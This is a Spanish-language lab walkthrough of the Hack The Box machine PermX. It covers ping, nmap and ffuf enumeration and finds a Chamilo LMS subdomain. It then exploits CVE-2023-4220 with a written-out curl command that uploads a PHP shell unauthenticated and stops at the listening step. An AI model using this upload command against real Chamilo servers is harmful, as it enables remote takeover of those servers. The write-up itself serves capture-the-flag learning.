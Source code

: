 #Easy #fuzzing #role #tecnicas 

### Ping

```python
ping -c 1 10.10.11.23
PING 10.10.11.23 (10.10.11.23) 56(84) bytes of data.
64 bytes from 10.10.11.23: icmp_seq=1 ttl=63 time=156 ms

--- 10.10.11.23 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 155.524/155.524/155.524/0.000 ms
```

### TTL = 63 Linux

### nmap

```python
# Nmap 7.94SVN scan initiated Fri Jul 12 13:52:19 2024 as: nmap -p- -open -sCV --min-rate 5000 -n -Pn -oN Scan 10.10.11.23
Nmap scan report for 10.10.11.23
Host is up (0.16s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 12 13:52:48 2024 -- 1 IP address (1 host up) scanned in 28.04 seconds
```

### Enumeración del puerto 80 (http)
no parece haber mucho en la web asi que vamos a seguir enumerando
![[Pasted image 20240712135330.png]]

### Fuzzing con ffuf
encontramos un subdominio `lms` que me llama la atención
![[Pasted image 20240712135420.png]]

`Chamilo lms`
hemos conseguido un LMS llamado chamilo así que intentaremos buscar alguna vulnerabilidad 
![[Pasted image 20240712140800.png]]

### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad     | Tipo | Nivel | Link                                                                               |
| -------------- | ------------------------------- | ---- | ----- | ---------------------------------------------------------------------------------- |
| CVE-2023-4220  | Unauthenticated Big Upload File | RCE  | 8.1   | [RCE](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc.git) |
|                |                                 |      |       |                                                                                    |
|                |                                 |      |       |                                                                                    |

```python

curl -F 'bigUploadFile=@shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'

```

de esta forma vamos a cargar un archivo malicioso en este caso llamado shell.php usando el parámetro `curl -F`
![[Pasted image 20240712140505.png]]

### Shell
estaremos a la escucha en el puerto que hemos especificado y ha
![[Pasted image 20240712141735.png]]